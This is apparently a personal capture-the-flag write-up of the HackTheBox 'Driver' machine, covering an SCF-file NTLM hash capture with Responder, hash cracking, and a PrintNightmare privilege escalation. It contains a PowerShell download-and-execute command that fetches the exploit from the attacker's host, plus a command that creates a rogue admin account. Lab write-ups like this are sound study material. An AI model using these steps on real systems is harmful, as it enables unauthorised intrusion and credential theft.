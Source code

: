 ```yaml
---
title: "Driver HTB"
date: 2022-05-08T17:30:30
categories:
  - study
tags:
  - Windows
  - Network
  - Printer
  - Arbitrary File Upload
classes: wide
---
```

Driver is a retired Windows machine rated Easy on the HacktheBox platform. It can be found [here.](https://app.hackthebox.com/machines/Driver)

<h2> Enumeration</h2>
**Nmap scan results:**

```
80/tcp  open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
135/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
445/tcp open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)   
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

<h2>Foothold</h2>

We navigate to the website running on port 80 and get a request for credentials. I attempt the first one in mind `admin:admin` and we seem to be let right in. From here we see: 

<img src="/assets/images/Driver/drv0.PNG" alt="index.php">

The only navigation bar links that work seem to be "Home" and "Firmware Updates". Navigating to the latter we see:

<img src="/assets/images/Driver/drv1.PNG" alt="We can upload?">

I upload a reverse php shell file but can't navigate to any file directories (It's windows...). I re-read the explanation of the service again `upload the respective firmware update to our file share`. I see. It gets uploaded to a SMB file share. so a quick [google](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) informs me that use of files with the extension `.scf` can be used to execute certain commands. 

>*It is not new that SCF (Shell Command Files) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer. However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share.*

We're instructed that we can use create a file with the following contents (replacing x.x.x.x with our IP:

```
[Shell]
Command=2
IconFile=\\X.X.X.X\share\test.ico
[Taskbar]
Command=ToggleDesktop
```
We do this and then start up [responder](https://www.oreilly.com/library/view/mastering-kali-linux/9781787120235/080d49cf-9726-4bbc-ad96-49ef7cbe0729.xhtml) and upload our `@evil.scf` file.

We receive the NTLM hash for the user who checks our `.scf` file which is pointing at our machine and picked up by our listening responder. 

<img src="/assets/images/Driver/drv2.PNG" alt="Gottem.">

From here we save it into a file and use hashcat to crack it.

<img src="/assets/images/Driver/drv3.PNG" alt="liltony"> 

We see the user's credentials are "TONY:liltony". As port 5985 is open we can use `evil-winrm` to connect over winrm with these credentials. 

<img src="/assets/images/Driver/drv4.PNG" alt="liltony"> 

<h2>Privilege Escalation</h2>

From here, we explore the idea that this box could be print nightmare related. The printer management on port 80 gives a big hint. We see that the print Spooler service is running which means we should try the exploit.

<img src="/assets/images/Driver/drv5.PNG" alt="liltony"> 

Grabbing the exploit from [Caleb Stewart | John Hammond](https://github.com/JohnHammond/CVE-2021-34527) we run our classic python webserver and then use powershell on target to download the file with: 

```
iex(new-object net.webclient).downloadstring('http://10.10.14.9/nightmare.ps1')
```

From here we use the `Invoke-Nightmare` command to generate an admin account:

```
Invoke-Nightmare -NewUser "vanitas" -NewPassword "password"
```
<img src="/assets/images/Driver/drv6.PNG" alt="vanitas"> 

We sign-in as the user we just created and check our group membership.

<img src="/assets/images/Driver/drv7.PNG" alt="vanitas"> 

We have local admin and we can check the usual place for the root flag:

<img src="/assets/images/Driver/drv8.PNG" alt="Flag"> 

We also go back for the user flag we forgot:

<img src="/assets/images/Driver/drv9.PNG" alt="Flag"> 


<img src="/assets/images/Driver/drv10.PNG" alt="Flag"> 

<h4>For next time:</h4>

- Gotta remember the `.scf` SMB fileshare trick.




